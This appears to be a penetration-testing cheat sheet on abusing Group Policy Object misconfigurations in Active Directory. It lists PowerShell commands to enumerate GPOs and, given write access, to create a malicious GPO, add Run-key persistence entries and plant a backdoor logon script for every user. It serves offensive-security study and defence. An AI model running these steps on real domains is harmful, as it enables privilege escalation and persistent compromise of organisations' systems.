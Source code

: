 # Group Policy Objects (GPOs)

Misconfigurations in Group Policy Objects (GPOs), especially if they grant excessive permissions or allow writable access to scripts, registry keys, or other sensitive resources, can provide significant privilege escalation vectors. These techniques are especially effective if the attacker gains access to modify GPOs that apply to privileged users or groups.

#### Identifying GPO Misconfigurations
- List all GPOs:
   ```powershell
   Get-GPO -All
   ```
- Generate a report of all Group Policy Objects (requires domain admin privileges):
	```powershell
	Get-GPOReport -All -ReportType HTML -Path "C:\GPOReport.html"
	```
- Check specific GPO settings:
   ```powershell
   Get-GPOReport -Name "<GPO Name>" -ReportType XML
   ```
- Retrieve the Resultant Set of Policy (RSoP) for the current user:
	```powershell
	gpresult /R
	```

#### View GPO Startup Scripts
- Retrieve current GPO startup scripts:
	```powershell
	Get-GPResultantSetOfPolicy -User <username> -ReportType XML | Select-String "Logon"
	```

#### Create Group Policy Preferences (GPP)
If you discover that a user has write access to a GPO or specific settings within it, you can modify it to gain elevated privileges.
- Create a malicious GPO:
   ```powershell
   New-GPO -Name "<Malicious GPO>"
   ```
- Set a registry key for persistence:
   ```powershell
   Set-GPRegistryValue -Name "<Malicious GPO>" -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "<MaliciousKey>" -Value "<MaliciousCommand>"
   ```

#### Modifying GPO to Set Logon/Startup Scripts
- Add a malicious logon script for every user:
   ```powershell
   Set-ItemProperty -Path 'HKLM:\Software\Microsoft\Windows\CurrentVersion\Group Policy\Scripts\Logon' -Name 'Script' -Value 'C:\Backdoor\logon.ps1'
   ```
- Set a malicious startup registry entry:
   ```powershell
   Set-GPRegistryValue -Name "<GPO Name>" -Key "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Malicious" -Value "C:\Path\To\Malicious.exe"
   ```
